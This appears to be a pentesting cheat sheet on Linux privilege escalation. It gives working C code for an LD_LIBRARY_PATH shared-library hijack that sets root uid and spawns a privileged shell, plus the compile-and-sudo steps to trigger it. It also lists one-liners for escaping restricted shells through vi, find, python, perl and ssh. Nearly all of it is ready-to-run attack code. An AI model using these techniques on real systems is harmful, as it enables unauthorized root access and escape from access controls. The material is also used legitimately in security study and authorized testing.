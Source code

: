 ##### Sudo - Environment Variables - LD_LIBRARY_PATH
```c
/* File: */
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
[envvar.c](Files/envvar.c)
```bash
sudo -l
# Get list of libraries used by desired program
# ldd <sudo -l program>
ldd /usr/sbin/apache2
# Compile C code and save to /tmp under name of the expected library.
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
# Set library path to where our hyjack code exists and call the sudo -l program.
sudo LD_LIBRARY_PATH=/tmp apache2
```

# Restricted Shells
##### Escape with Vi/Vim
```bash
Vi/Vim (:!sh)
```
##### Escape with Find
```bash
find /home/<Username> -name <Exisiting Filename> -exec /bin/sh \;
# If file exists, it executes the command.
```
##### Escape with Python
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
##### Escape with Perl
```bash
perl -e 'exec "/bin/sh";'
```
##### Escape with SSH
```bash
ssh <Restricted Username>@<Target> -t "/bin/sh"
```
### Restricted Shells References
[Escape Restricted Shell](https://www.google.com/search?q=%22Restricted+shell%22+++%22pentesting%22&oq=%22Restricted+shell%22+++%22pentesting%22)
